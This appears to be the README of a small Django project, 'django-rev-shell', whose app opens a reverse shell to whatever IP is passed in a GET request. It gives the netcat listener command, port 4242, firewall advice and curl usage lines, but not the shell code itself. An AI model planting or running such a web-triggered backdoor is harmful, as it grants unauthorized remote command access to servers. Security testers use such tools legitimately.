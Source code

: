# django-rev-shell

A simple Django app that returns a reverse shell to the IP that is passed as a GET parameter to index.

The TCP port the application tries to send the reverse shell is 4242 (hardcoded). Please update the code as required. A `netcat` listener on the receiving system can be started as `nc -nlvp 4242`. Make sure firewall rules allow ingress on this port (on AWS security groups for example).

Making an HTTP request to the Django app with the ip of the receiver sent as a parameter as shown below, will return a reverse shell. The shell runs with the same privileges as the web app server and the shell commands and response data is over an unencrypted channel.

## Usage

```
python3 index.py runserver
curl http://<server-where-app-is-deployed>/?ip=<ip-where-nc-is-listening>
```
